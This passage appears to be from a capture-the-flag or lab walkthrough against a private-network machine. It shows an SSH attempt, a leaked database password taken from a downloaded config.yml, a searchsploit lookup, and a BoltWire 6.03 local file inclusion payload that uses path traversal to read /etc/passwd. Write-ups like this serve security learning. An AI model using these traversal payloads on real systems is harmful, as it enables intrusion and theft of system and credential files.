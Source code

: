 ```bash
    jp
```

```bash
ssh -i id_rsa jp@192.168.31.130

# needs password
```

- Download [http://192.168.31.130/app/config/config.yml](http://192.168.31.130/app/config/config.yml)

```bash
database:
    driver: sqlite
    databasename: bolt
    username: bolt
    password: I_love_java
```

#### LFI

- Navigate to the BoltWire application [http://192.168.31.130:8080/dev/](http://192.168.31.130:8080/dev/)
  - [BoltWire 6.03 - Local File Inclusion](https://www.exploit-db.com/exploits/48411)

```bash
searchsploit boltwire

BoltWire 3.4.16 - 'index.php' Multiple Cross-Site Scripting Vulnerabilities | php/webapps/36552.txt
BoltWire 6.03 - Local File Inclusion | php/webapps/48411.txt
```

- Use the `Local File Inclusion` vulnerability, that allows to expose files running on a server
  - **LFI** - Steps to Reproduce:
    - Using HTTP GET request browse to the following page, whilst being authenticated user.
  - Create and account and login

```bash
/index.php?p=action.search&action=../../../../../../../etc/passwd
```

- [http://192.168.31.130:8080/dev/index.php?p=action.search&action=../../../../../../../etc/passwd](http://192.168.31.130:8080/dev/index.php?p=action.search&action=../../../../../../../etc/passwd)
